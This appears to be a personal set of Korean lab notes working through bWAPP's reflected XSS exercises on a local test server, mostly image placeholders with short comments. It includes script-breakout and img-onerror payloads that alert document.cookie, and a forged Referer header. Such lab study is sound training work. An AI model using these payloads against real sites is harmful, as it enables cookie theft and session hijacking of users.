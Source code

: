 # Reflected (GET)
---
- 반사형
![[Pasted image 20241011114128.png]]![[Pasted image 20241011114136.png]]
medium
![[Pasted image 20241011114225.png]]
high
![[Pasted image 20241011114256.png]]

# Reflected (POST)
---

# Reflected (JSON)
---
![[Pasted image 20241011114358.png]]![[Pasted image 20241011114443.png]]![[Pasted image 20241011114503.png]]
반응은 하지만 값을 출력하지는 않다.
![[Pasted image 20241011114556.png]]
이전의 스크립트는 종료하고 새로운 스트립트를 추가
```
</script><script>alert(document.cookie)</script>
```
![[Pasted image 20241011114657.png]]
적용된다.

medium
![[Pasted image 20241011114835.png]]
```
<img src=x onerror=alret('hello')>
```
![[Pasted image 20241011114923.png]]

# Reflected (Back Button)
---
![[Pasted image 20241011115023.png]]
![[Pasted image 20241011120214.png]]
```
Referer: http://192.168.56.122/bWAPP/xss_back_button.php
```
- 뒤로가기로 넘어가는 사이트
![[Pasted image 20241011120402.png]]

# Reflected (Custom Header)
---
![[Pasted image 20241011121950.png]]
![[Pasted image 20241011121909.png]]
![[Pasted image 20241011122210.png]]

# Reflected (Eval)
---
![[Pasted image 20241011122416.png]]
![[Pasted image 20241011122507.png]]
![[Pasted image 20241011122533.png]]![[Pasted image 20241011122540.png]]

# Reflected (HREF)
---
![[Pasted image 20241011122842.png]]
![[Pasted image 20241011122900.png]]
![[Pasted image 20241011122935.png]]
![[Pasted image 20241011122948.png]]
- 원하는 동작은 아니지만 비정상적으로 움직임다.
![[Pasted image 20241011123055.png]]
```
</a><script>alert(document.cookie)</script><a>
```
로 입력을 수정하면 원하는 결과가 나올 것 같다.
![[Pasted image 20241011123243.png]]
정답


# Reflected (Login Form)
---

# phpMyAdmin BBCode Tag XSS
---


# Reflected ([[PHP_SELF]])
---
![[Pasted image 20241011123549.png]]

![[Pasted image 20241011123757.png]]

![[Pasted image 20241011123815.png]]

![[Pasted image 20241011123950.png]]


